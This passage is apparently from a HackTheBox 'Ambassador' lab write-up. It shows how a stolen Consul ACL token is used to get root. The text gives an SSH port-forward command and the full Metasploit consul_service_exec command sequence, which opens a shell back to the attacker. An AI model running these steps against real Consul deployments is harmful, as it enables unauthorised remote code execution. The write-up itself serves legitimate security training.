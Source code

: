 ![Consul configuration](/assets/hackthebox/ambassador/consul_configuration.png)

The token is valid, and the ACLs are enabled here, so now have all the things to get `root` on thd machine.

## RCE in consul with Metasploit

The [Metasplot framework](https://www.metasploit.com/) has an [exploit](https://www.exploit-db.com/exploits/46074) for this exploitation path. Consul is running on port 8500 by default, but it is only available from the target machine, so we have to set port tunneling. `ssh` tool contains port forwarding functions. We set tunnel from our port 4000 to targets localhost port 8500.

```bash
ssh -L 4000:localhost:8500 developer@ambassador.htb
```

Next, we have to run Metasploit, select the exploit and provide the options. The exploit is targetting port 4000 on our local machine, which is the tunnel to the target.

```bash
msfconsole -q
use multi/misc/consul_service_exec
set rport 4000
set rhosts 127.0.0.1
set acl_token <consul token>
set lhost tun0
exploit
```

![Metasploit exploitation](/assets/hackthebox/ambassador/metasploit_exploitation.png)
